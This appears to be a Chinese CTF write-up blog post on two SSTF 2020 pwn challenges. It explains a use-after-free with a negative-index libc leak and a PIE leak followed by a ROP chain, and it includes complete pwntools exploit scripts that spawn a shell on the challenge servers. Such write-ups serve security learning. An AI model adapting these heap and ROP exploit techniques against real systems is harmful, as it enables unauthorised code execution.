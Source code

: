 ```yaml
---
layout:     post
title:      2020 ssctf(Hacker's Playground) wp
subtitle:   T-express, Eat-the-pie
date:       2020-08-19
author:     wxk1997
header-img: img/pwn-bg.png
catalog: true
tags:
    - ctf
    - pwn
    - writeup
---
```


# 前言

深刻地感受到自己变菜了. 两道非常简单的题目都没做出来. 一题是堆的uaf. 有个非常明显的整形溢出没有看到, 导致一直无法leak地址. 还有一题也是整形溢出可以, 需要在栈上构造rop链执行system("sh"), 也是卡住了. 太菜了 :(

# 正文

## T express

glibc 2.31. 保护全开. 有个 uaf 漏洞. 但是限制了只能malloc 7次. 通过另一个 off-by-one 漏洞可以实现 double free. 但是因为次数限制所以无法leak 地址. 卡了一会儿就去看别的题目了. 赛后学弟才在 show 功能中没有校验输入的索引是否为负数. 所以可以通过负的索引通过 stdout leak  lbic地址. 

```c
int index; // [rsp+Ch] [rbp-4h]

printf("Index of ticket: ");
index = read_l();
if ( index <= 6 && passes[index] ) {
    ...
}
```

没啥好说的, 就是菜. 不找借口. 

exp 如下:

```python
from pwn import *

filename = "./t_express"
ip = "t-express.sstf.site"
port = 1337

LOCAL = True if len(sys.argv)==1 else False

elf = ELF(filename)

remote_libc = "./libc.so.6"
if LOCAL:

    io = process(filename, env={'LD_PRELOAD': remote_libc}) 
    libc = ELF(remote_libc)
else:
    context.log_level = 'debug'
    io = remote(ip, port)
    libc = ELF(remote_libc)

def choice( idx):
    io.sendlineafter( "choice: ", str(idx))

def lg(name, val):
    log.info(name+" : "+hex(val))

def add( ticket_type, data1, data2):
    choice( 1)
    io.sendlineafter( " buy?\n", str(ticket_type))
    io.sendafter( "First name: ", data1)
    io.sendafter( "Last name: ", data2)

def show( idx):
    choice( 2)
    io.sendlineafter( "Index of ticket: ", str(idx))

def rm( idx, op=''):
    choice( 3)
    io.sendlineafter( "Index of ticket: ", str(idx))
    if op != '':
        io.sendlineafter( "1) meal 2) safari 3) gift 4) ride\n", op)

add( 1, '/bin/sh\n', 'a'*8)
add( 1, 'bb', 'aaa\n')
add( 1, 'bb', 'aaa\n')
add( 1, '/bin/sh\n', 'aaa\n')
rm( 2)

rm( 1)
rm( 0, '4')
rm( 1)

show( 1)
io.recvuntil( "|name |  ")
heap_addr = u64(io.recv( 6) + b'\0\0')
lg("heap_addr", heap_addr)

show( -8)
io.recvuntil( "|name |  ")
io.recv( 9)
libc_addr = u64(io.recv( 6) + b'\0\0')
lg("libc_addr", libc_addr)

libc.address = libc_addr - 0x1ec723

lg("libc base", libc.address)

fh = libc.symbols['__free_hook']
system = libc.symbols['system']

add( 1, p64(fh), '\n')
add( 1, p64(fh), '\n')
add( 1, p64(system), '\n')

rm( 3)

io.interactive()

```

## Eat the pie

32位程序, 开了pie. 栈上有函数指针, 因为输入结尾没有用 `\0` 截断所以是可以以leak 代码段地址的. 我tm又没看到. 这道不算什么. 问题是之后的构造过程也没构造出来. 思路太僵化了. 赛后看了一下别的队的题解, 就是先跳到 read 构造一个 rop chain 再通过 rop 执行 system("sh").

exp如下

```python
from pwn import *

# io = process("./eat_the_pie")
io = remote( "eat-the-pie.sstf.site" , 1337 )

io.sendlineafter("Select > ", "4"*15)
io.recvuntil("4"*15+'\n')
tmp = io.recv(4)
elf_base = u32(tmp) - 0x74d
print("elf base", hex(elf_base))

g1 = elf_base + 0x970
io.sendafter("Select > ", "-1 dabcdabcd"+p32(g1))

PebpR = elf_base + 0x00000a9b
system = elf_base + 0x5a0
sh_str = elf_base + 0x31a

payload = flat(system, 'aaaa', sh_str, 'aaaa', PebpR)

sleep(1)
io.sendline(payload)
```


# 结语

周日刚做出一道堆题就开始洋洋得意了, 结果这次连两道贼基础的题目都没做出来. 太菜了, 不要再飘飘然忘乎所以了, 老老实实刷题吧.


# 参考

1. [参考题解](https://github.com/theori-io/ctf/blob/master/SSTF%20CTF%202020%20Write%20Up%20-%20The%20Duck.pdf)